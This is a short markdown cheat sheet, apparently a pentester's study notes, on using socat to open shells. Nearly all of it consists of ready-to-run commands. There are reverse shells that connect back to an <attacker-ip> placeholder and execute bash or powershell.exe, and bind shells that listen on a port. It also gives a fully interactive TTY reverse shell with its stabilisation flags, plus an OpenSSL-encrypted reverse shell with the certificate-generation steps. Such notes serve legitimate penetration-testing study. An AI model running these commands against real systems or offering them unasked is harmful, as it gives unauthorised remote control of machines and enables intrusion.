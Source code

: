 # Basics
In general socat just connects two point. E.g. a listener and std-in.

`-d -d` - increases verbosity for debugging if the shell is not working. Not used for general operation.

# Shells
## Reverse shells
**Listeners** \
`socat TCP-L:<port> -` equivalent to `nc -lvnp <port>` \

**Reverse Shell** \
Windows: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` \
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. \

Linux: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind shells
**Linux**
`socat TCP-L:<PORT> EXEC:"bash -li"`
**Windows**
`socat TCP-L:<PORT EXEC:powershell.exe,pipes>` - We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

## Fully stable linux shell
Socat must be installed on linux target. \
``socat TCP-L:<port> FILE:`tty`,raw,echo=0`` - fully stable Linux reverse shell \
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - execute this command on target.
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

## Encrypted shells
Needs a cert on the listener. \
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` - creates 2048 bit rsa key with certificate valid almost a year \
`cat shell.key shell.crt > shell.pem` - obtain key and cert in pem file

**Listener** \
``socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0`` \
**Conn back** \
`socat OPENSSL:<listener-ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

